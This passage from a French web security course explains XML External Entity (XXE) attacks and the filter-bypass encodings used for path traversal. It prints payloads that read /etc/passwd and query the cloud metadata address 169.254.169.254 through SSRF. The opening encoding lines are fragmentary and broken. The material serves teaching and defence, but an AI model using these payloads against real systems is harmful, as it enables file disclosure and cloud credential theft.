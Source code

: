 -- Encodages alternatifs (bypass de filtres)
..%
....//....//etc/passwd            (variation)
..%
1.4.6  XXE — XML External Entity (OWASP A05)
Lorsqu'un parseur XML traite des entités externes définies dans le DTD (Document Type Definition) d'un document XML fourni par l'utilisateur, il peut divulguer des fichiers locaux, effectuer des requêtes SSRF, ou même provoquer un déni de service (Billion Laughs Attack). Les frameworks modernes désactivent généralement le traitement des entités externes par défaut, mais des configurations héritées ou mal configurées restent vulnérables.
Code : Exemples de payloads XXE
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<request>
  <username>&xxe;</username>
</request>

<!-- XXE via SSRF -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]>

